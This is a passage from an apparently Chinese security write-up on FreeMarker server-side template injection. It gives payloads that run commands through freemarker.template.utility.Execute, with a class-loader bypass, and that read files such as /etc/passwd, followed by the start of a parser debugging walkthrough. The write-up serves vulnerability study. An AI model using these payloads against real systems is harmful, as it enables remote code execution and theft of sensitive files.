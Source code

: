 ```html
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("calc"")}
```

读文件

```html
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

### 调试分析

用的payload：`<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}`，yakit记得url编码

#### 字符串分割

freemarkerConfig.getTemplate作为字符串分割的入口

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429202216300.png)

经过如下栈后，在freemarker.core.FMParser#MixedContentElement对字符串进行分割

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429202544024.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429202527501.png)

因为开头的`<#`，如下一堆case都是以`<#`开头的，调用FreemarkerDirective，而且我们的`<#assign`也属于这里面

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429202752859.png)

跟进后FreemarkerDirective函数，发现调用Assign

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250429203000067.png)
